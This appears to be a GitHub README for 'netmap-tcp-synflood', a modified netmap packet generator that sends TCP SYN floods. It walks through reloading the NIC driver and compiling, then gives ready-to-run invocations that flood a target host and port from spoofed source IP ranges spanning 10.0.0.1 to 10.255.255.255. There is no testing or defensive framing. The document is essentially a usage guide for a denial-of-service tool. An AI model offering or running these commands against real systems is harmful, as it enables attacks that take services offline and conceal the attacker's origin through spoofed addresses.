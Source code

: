 # netmap-tcp-synflood

Its a code from netmap pkt-gen example that can be able to send tcp syn pkts

First, compile netmap (linux): https://github.com/luigirizzo/netmap/tree/master/LINUX

After, reload nic driver (in this case is ixgbe)

	rmmod ixgbe ; modprobe mdio ; modprobe ptp ; modprobe dca ; insmod /root/netmap/LINUX/netmap.ko ; insmod /root/netmap/LINUX/ixgbe/ixgbe.ko

To compile:

	cd netmap-tcp-synflood
	make

After compiled, just run: 

	/examples/pkt-gen -i eth2 -f tx -D <gateway_mac_address> -s <src_ip>:<src_port_range>-<dst_ip>:dst_port_range -d <target>:<target_port>
  
Real example :-)

	/examples/pkt-gen -i eth2 -f tx -D 00:1B:21:A7:9B:D8 -s 10.0.0.1:1024-10.255.255.255:5000 -d 192.168.10.80:80
	
OR

		/examples/pkt-gen -i eth2 -f tx -D 00:1B:21:A7:9B:D8 -s 10.0.0.1-10.255.255.255 -d 192.168.10.80:80

OR

		/examples/pkt-gen -i eth2 -f tx -D 00:1B:21:A7:9B:D8 -s 10.0.0.1 -d 192.168.10.80:80
